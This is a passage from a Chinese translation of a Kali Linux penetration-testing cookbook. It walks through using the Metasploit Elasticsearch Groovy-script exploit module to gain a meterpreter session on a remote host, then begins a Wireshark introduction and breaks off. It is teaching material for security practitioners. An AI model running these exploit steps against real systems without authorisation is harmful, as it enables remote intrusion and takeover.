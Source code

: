 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/58d6bd05-740c-44a9-98d6-924790c7fd12.png)

1.  我们使用以下命令搜索 Elasticsearch 利用漏洞：

```
 search elasticsearch
```

以下截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/54184f66-0f2f-4617-a49e-cb4a3c09cc19.png)

1.  我们在这种情况下选择利用：

```
 use exploit/multi/elasticsearch/search_groovy_script
```

以下截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/d9555910-c534-433c-b376-1989c20ed3b2.png)

1.  我们使用`set RHOST x.x.x.x`命令设置 RHOST：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/23726177-ae46-4a05-99fb-575043e5b4b9.png)

1.  我们运行以下命令：

```
 run
```

1.  我们的 meterpreter 会话已准备就绪。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/791bec9c-03e1-426c-918f-7a6590cd7e0d.png)

# 另请参阅

+   *探索 msfconsole*示例

# 老牌的 Wireshark

Wireshark 是世界上最常用的网络协议分析器。它是免费和开源的。它主要用于网络故障排除和分析。在这个示例中，您将学习一些关于 Wireshark 的基本知识，以及我们如何使用它来分析网络流量，以找出实际通过我们的网络流动的信息。

# 准备好

Kali 已经预先安装了该工具，让我们看看如何运行它！

# 如何做...

以下步骤演示了 Wireshark 的使用：
